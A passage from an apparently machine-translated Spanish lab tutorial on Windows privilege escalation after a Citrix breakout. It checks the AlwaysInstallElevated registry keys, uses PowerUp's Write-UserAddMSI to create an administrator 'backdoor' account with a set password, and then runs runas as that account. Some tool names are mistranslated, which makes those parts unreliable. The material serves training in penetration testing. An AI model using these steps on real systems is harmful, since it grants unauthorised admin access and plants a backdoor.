 Al ejecutar el archivo "malvado.bat", iniciará una ventana del símbolo del sistema. Esto puede ser útil para realizar varias operaciones de línea de comandos.

---

## Privilegios crecientes

Una vez que se establece el acceso al símbolo del sistema, es posible buscar vulnerabilidades en un sistema más fácilmente. Por ejemplo, herramientas como[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)y[Encendido](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)También se puede emplear para identificar posibles problemas de seguridad y vulnerabilidades dentro del sistema operativo.

Usando`PowerUp.ps1`, encontramos que[Instale siempre elevado](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)La clave está presente y configurada.

También podemos validar esto utilizando el símbolo del sistema consultando las claves de registro correspondientes:

  Ruptura de Citrix

```cmd-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

Una vez más, podemos usar powerup, utilizando su`Write-UserAddMSI`función. Esta función facilita la creación de un`.msi`Archivo directamente en el escritorio.

  Ruptura de Citrix

```powershell-session
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Ahora podemos ejecutar`UserAdd.msi`y crear un nuevo usuario`backdoor:T3st@123`bajo el grupo de administradores. Tenga en cuenta que darle una contraseña que no cumpla con los criterios de complejidad de contraseña arrojará un error.

![File Explorer window showing Desktop. 'User Add' dialog open with fields: Username 'backdoor', Password 'T3st@123', Group 'Administrators'. Create button visible.](https://academy.hackthebox.com/storage/modules/67/useradd.png)

Volver en CMD ejecutar`runas`Para iniciar el símbolo del sistema como el recién creado`backdoor`usuario.
